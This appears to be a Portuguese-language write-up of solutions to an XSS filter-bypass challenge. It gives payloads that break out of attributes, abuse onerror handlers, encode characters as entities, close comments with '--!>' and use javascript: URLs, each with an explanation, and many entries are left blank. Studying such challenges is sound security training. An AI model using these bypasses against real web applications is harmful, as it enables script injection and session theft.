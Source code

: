 ![image](https://github.com/user-attachments/assets/c07d2c64-0365-4938-875e-bdb428fea62a)

Input:
```
"><script>prompt(1)</script>
```

Description:
O atributo value seja fechado com " — você escapou a string.

O campo de input se feche com >.

O navegador interprete o restante como HTML válido, e execute o script.

HTML source:
```
<input type="text" value=""><script>alert(1)</script>">
```

-----

![image](https://github.com/user-attachments/assets/40ee93b5-5a4a-42fb-96b7-886521db43d7)

Input:
```
<img src=x onerror=prompt(1)//
```

Description:
Por conta do filtro não da para abrir e fechar o construtor do javascript (<>), com isso, podemos apenas abrir <, dar uma imagem que tem como referência x, no entanto essa imagem não existe, logo, ela dará erro e o erro que foi indicado foi o próprio prompt(1), o restante do input (//) serve para comentar o restante da linha, com isso o fechamento do <article> não acontece, e o HTML fecha sozinho o >, após isso ele finaliza o <article> também.

HTML source:
```
<article><img src=x onerror=prompt(1)//</article>
```

-----

![image](https://github.com/user-attachments/assets/1961c834-7137-4764-b43b-076a91695485)

Input:
```
<svg><script>prompt&#40;1)</script>
```

Description:
O navegador interpreta o conteúdo dentro de <svg> como XML/HTML, então aceita <script> lá dentro.

Uma entidade HTML: &#40; → que representa (.

Como ( está sendo filtrado, mas &#40; não é o caractere real, o filtro não detecta e não remove essa entidade.

Quando o HTML é renderizado pelo navegador, &#40; é convertido de volta para ( — isso é comportamento normal do parser HTML.

HTML source:
```
<svg><script>prompt&#40;1)</script>
```

-----

![image](https://github.com/user-attachments/assets/c45de787-add9-4100-afa2-05661fd71948)

Input:
```
--!> <img src=x onerror=prompt(1)
```

Outra forma de fecha comentário em HTML é usando --!>.

HTML source:
```
<!-- --!> <img src=x onerror=prompt(1) -->
```

-----

![image](https://github.com/user-attachments/assets/9e2f2d74-e28a-4ce2-81af-a14399681a10)

-----

![image](https://github.com/user-attachments/assets/41260ad4-96ca-4920-82e4-d14b137026db)

Input:
```
"type=image src onerror
="prompt(1)
```

Description:
O payload funciona porque o " fecha o atributo value, permitindo injetar novos atributos no <input>. O type=image faz o navegador tentar carregar uma imagem, e o src (mesmo sem valor) ativa esse carregamento. Como a imagem não existe, ocorre um erro que dispara o onerror. A quebra de linha entre onerror e = serve para burlar o filtro regex, que só detecta on...= na mesma linha.

HTML source:
```
<input value=""type=image src onerror
="prompt(1)" type="text">
```

-----

![image](https://github.com/user-attachments/assets/cb66fc90-8b07-4e5e-9ea1-fc58f5b9e319)

Input:
```
javascript:prompt(1)#{"action":1}
```

Description:
O payload funciona porque javascript:prompt(1) define o action do formulário como código JavaScript executável. O #{"action":1} garante que o JSON seja válido e o código não quebre. O filtro tenta bloquear apenas script: e data:, mas esquece de incluir javascript:, permitindo o bypass. Quando form.submit() é chamado, o navegador executa o código no action.

HTML source:
```
<form action="javascript:prompt(1)" method="post"><input name="actio" value="1"></form>                         
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script>
```

-----

![image](https://github.com/user-attachments/assets/19a64242-8781-4c49-a1a7-8aa5e452499c)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/1acbc0ce-b7a3-44fd-9310-42dd26aca31e)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/904e735c-975a-4988-b81c-b508d99f321e)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/1e1649d2-f8db-481a-a3df-142d4f578056)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/41a629b0-899a-4417-93e5-2676c6edabbc)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/54ac5579-6d9c-428b-8dda-bd5389198186)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/69da3e2a-9b60-488d-ba2d-9f68b19b7bf4)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/36392822-ed9c-4edf-bc35-8aa9d27ceda8)

Input:
```

```

Description:

HTML source:
```

```

-----

![image](https://github.com/user-attachments/assets/9f2feeb0-98cb-45c3-bc24-d111dc94f0dc)

Input:
```

```

Description:

HTML source:
```

```

-----

